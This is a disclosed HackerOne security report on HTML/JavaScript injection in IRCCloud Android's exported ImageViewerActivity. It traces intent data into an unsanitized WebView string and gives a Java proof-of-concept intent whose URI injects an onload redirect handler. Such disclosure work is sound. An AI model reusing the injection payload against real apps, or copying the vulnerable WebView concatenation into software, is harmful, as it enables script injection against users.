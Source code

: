 # [IRCCloud Android] XSS in ImageViewerActivity

## Report Details
- **Report ID**: 283063
- **URL**: https://hackerone.com/reports/283063
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-10-26T12:18:33.011Z
- **Disclosed**: 2017-11-03T11:36:13.948Z

## Reporter
- **Username**: bagipro
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: irccloud

## Vulnerability Information
Hi, I'd like to report HTML/JS injection in activity ```com.irccloud.android.activity.ImageViewerActivity``` which is exported:
```xml
        <activity android:configChanges="keyboardHidden|orientation|screenSize" android:label="@string/title_activity_imageviewer" android:name="com.irccloud.android.activity.ImageViewerActivity" android:theme="@style/ImageViewerTheme">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="@string/IMAGE_SCHEME"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="@string/IMAGE_SCHEME_SECURE"/>
            </intent-filter>
        </activity>
```
so can be launched by arbitrary apps installed on the same device. On the newest Androids could be exploited also by Android Instant Apps directly from a web-browser (installation is not required).

File ``` com/irccloud/android/activity/ImageViewerActivity.java  ```
```java

        } else if (getIntent() == null || getIntent().getDataString() == null) {
            finish();
        } else {
            ImageList.getInstance().fetchImageInfo(getIntent().getDataString().replace(getResources().getString(R.string.IMAGE_SCHEME), "http"), new OnImageInfoListener() {
                public void onImageInfo(ImageURLInfo info) {
                    if (info == null) {
                        ImageViewerActivity.this.fail();
                    } else if (info.mp4 != null) {
                        ImageViewerActivity.this.loadVideo(info.mp4);
                    } else {
                        ImageViewerActivity.this.loadImage(info.thumbnail); // by default
                    }
                }
            });
        }
```

Here we see that method ```ImageList.fetchImageInfo(..)``` is being loaded with attacker provided data.
Inside ``` ImageList ```:
```java
    public void fetchImageInfo(String URL, OnImageInfoListener listener) {
        // ...
        String url = URL;
        // ...
        ImageURLInfo info = new ImageURLInfo();
        info.thumbnail = url;
        info.original_url = URL;
        putImageInfo(info);
        listener.onImageInfo(info);
```
So both ```info.thumbnail``` and ```info.original_url``` contains attacker provided data and this stuff is returned back to ```ImageViewerActivity``` where code is executed
```java
ImageViewerActivity.this.loadImage(info.thumbnail);
```

Inside this method attacker can inject arbitrary HTML/JS:
```java
private void loadImage(String urlStr) {
        try {
            // ...
            this.mImage.loadDataWithBaseURL(null, "<!DOCTYPE html>\n<html><head><style>html, body, table { height: 100%; width: 100%; background-color: #000;}</style></head>\n<body>\n<table><tr><td><img src='" + new URL(urlStr).toString() + "' width='100%' onerror='Android.imageFailed()' onclick='Android.imageClicked()' style='background-color: #fff;'/>\n</td></tr></table></body>\n</html>", "text/html", "UTF-8", null);
```

PoC of exploitation on Java:
```java
        Intent intent = new Intent();
        intent.setClassName("com.irccloud.android", "com.irccloud.android.activity.ImageViewerActivity");
        intent.setData(Uri.parse("https://shoppersocial.me/wp-content/uploads/2016/06/wow.jpg' onload='window.location.href=\"http://yahoo.com\""));
        startActivity(intent);
```

Result:
{F233010}
{F233011}

APK is attached

## Attachments
- 2017-10-26_15-15-58.jpg
- 2017-10-26_15-15-26.jpg
- app-release.apk
